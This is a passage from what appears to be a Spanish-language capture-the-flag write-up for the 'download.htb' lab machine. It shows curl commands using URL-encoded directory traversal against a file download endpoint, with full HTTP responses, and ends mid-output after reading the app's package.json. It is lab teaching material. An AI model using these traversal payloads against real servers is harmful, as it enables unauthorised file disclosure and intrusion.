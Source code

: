 ## Intrusión

La parte de descargas de la web ciertamente, tiene un comportamiento un poco extraño al introducir una secuencia de retroceso de directorios: nos devuelve el portal, sin embargo esto suele ser así muchas veces

```bash
❯ curl -v --path-as-is "http://download.htb/files/download/9c163f37-bfec-480e-9aea-143d3cd345db/.%2e%2f"
*   Trying 10.10.11.226:80...
* Connected to download.htb (10.10.11.226) port 80
> GET /files/download/9c163f37-bfec-480e-9aea-143d3cd345db/.%2e%2f HTTP/1.1
> Host: download.htb
> User-Agent: curl/8.3.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Server: nginx/1.18.0 (Ubuntu)
< Date: Sat, 11 Nov 2023 00:34:32 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 2066
< Connection: keep-alive
< X-Powered-By: Express
< ETag: W/"812-Ow72EOa7gkUMth+ABDvlPDNVEb4"
< Set-Cookie: download_session=eyJmbGFzaGVzIjp7ImluZm8iOltdLCJlcnJvciI6W10sInN1Y2Nlc3MiOltdfX0=; path=/; expires=Sat, 18 Nov 2023 00:34:32 GMT; httponly
< Set-Cookie: download_session.sig=4kbZR1kOcZNccDLxiSi7Eblym1E; path=/; expires=Sat, 18 Nov 2023 00:34:32 GMT; httponly
< 
<!DOCTYPE html>
... [snip]
```

En cualquier otra parte del sitio no pasa nada, parece que este sitio está bien protegido, sin embargo podemos pensar e intentar algo a ciegas: si cualquier fichero inexistente que intentemos descargar solamente nos devolverá un 404 o el portal si intentamos retroceder directorios, **se puede asumir que esta vulnerabilidad si existe solo que no tenemos algo nos lo diga**, pero para confirmarlo necesitamos apuntar a un archivo que sabemos, existe.

No podemos ir muy atrás para apuntar al `/etc/passwd` ya que el nginx nos lo impedirá y también debemos url-encodear los carácteres para que el Express los tome en cuenta, pero si los archivos se almacenaran en un directorio del sistema, podemos intentar apuntar a un archivo de la aplicación web, como esto es Express sabemos que algún `package.json` debe existir. Si retrocedemos dos directorios intentando buscar este archivo, lo encontraremos:

```bash
❯ curl --path-as-is "http://download.htb/files/download/9c163f37-bfec-480e-9aea-143d3cd345db%2f%2e%2e%2f%2e%2e%2fpackage.json"
{
  "name": "download.htb",
  "version": "1.0.0",
  "description": "",
  "main": "app.js",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1",
    "dev": "nodemon --exec ts-node --files ./src/app.ts",
    "build": "tsc"
  },
  "keywords": [],
  "author": "wesley",
  "license": "ISC",
  "dependencies": {
    "@prisma/client": "^4.13.0",
    "cookie-parser": "^1.4.6",
    "cookie-session": "^2.0.0",
```